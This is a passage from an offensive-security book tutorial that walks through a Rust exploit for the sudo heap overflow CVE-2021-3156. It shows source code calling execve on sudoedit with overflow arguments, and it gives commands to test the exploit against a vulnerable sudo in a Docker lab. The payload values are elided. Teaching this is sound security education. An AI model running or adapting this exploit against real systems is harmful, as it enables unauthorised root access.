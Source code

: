 Unfortunately, Rust's API is "too safe" for our use case and doesn't allow us to play with the memory as we want to overflow the buffer.


This is where `libc` comes into play. By using `libc::execve` we can fully control the layout of the memory.

The trick is to turn a Rust array of `&str` into a `C` array of pointers to `C` strings (which a `NULL` terminated array of `*char`, `*char[]`) for `execve`'s `args` and `env` arguments.

**[ch_07/exploits/cve_2021_3156/exploit/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/exploit/src/main.rs)**
```rust
use std::ffi::CString;
use std::os::raw::c_char;

fn main() {
    let args = ["sudoedit", "-A", "-s", "AA..."];
    let args: Vec<*mut c_char> = args
        .iter()
        .map(|e| CString::new(*e).expect("building CString").into_raw())
        .collect();
    let args: &[*mut c_char] = args.as_ref();


    let env = ["..."];
    let env: Vec<*mut c_char> = env
        .iter()
        .map(|e| CString::new(*e).expect("building CString").into_raw())
        .collect();
    let env: &[*mut c_char] = env.as_ref();

    unsafe {
        libc::execve(
            "/usr/bin/sudoedit".as_ptr() as *const i8,
            args.as_ptr() as *const *const i8,
            env.as_ptr() as *const *const i8,
        );
    }
}
```

You can test the exploit by running:

**[ch_07/exploits/cve_2021_3156/README.md](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/README.md)**
```bash
$ make payload
$ make exploit
$ docker run --rm -ti -v `pwd`:/exploit ubuntu:focal-20210416
apt update && apt install sudo=1.8.31-1ubuntu1
adduser \
    --disabled-password \
    --gecos "" \
    --shell "/bin/bash" \
    "bhr"
su bhr
cd /exploit
./rust_exploit
```
